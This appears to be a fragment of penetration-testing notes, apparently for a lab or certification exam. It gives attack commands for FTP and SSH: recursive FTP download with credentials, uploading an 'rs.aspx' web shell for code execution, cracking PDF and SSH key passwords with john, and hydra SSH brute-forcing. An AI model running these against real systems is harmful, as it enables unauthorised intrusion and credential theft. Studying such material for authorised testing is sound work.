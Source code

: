 Download files

```jsx
ftp>prompt off
ftp>mget * .
//recursive download
wget -r ftp://192.168.1.1:24621/  --ftp-user=ftp_jp --ftp-password=~p\<Ass:0rd
```

File upload ⇒ access path then RCE

```jsx
ftp> put rs.aspx
```

229 Entering Extended Passive Mode (|||50928|)

```jsx
^C
receive aborted. Waiting for remote to finish abort.
ftp> passive
Passive mode: off; fallback to active mode: off.

```

Unzip encrypted file

```jsx
7z x backup.zip
```

Get info from downloaded pdf

```jsx
exiftool -a -u *.pdf

//encrypted pdf
pdf2john Infrastructure.pdf > pdf.hash
john --wordlist=/usr/share/wordlists/rockyou.txt pdf.hash
//show cracked password
john pdf.hash --show
```

.pcap

```jsx
http.request.method == "POST"
http.request.uri contains "/console"
wireshark: follow -> TCP stream
```

### 22 - SSH

bruteforce

```jsx
hydra -l offsec -P /usr/share/wordlists/rockyou.txt 192.168.1.1 ssh -V
//crack ssh passphrase
ssh2john id_rsa > ssh.hash
john --wordlist=ssh.passwords ssh.hash
```

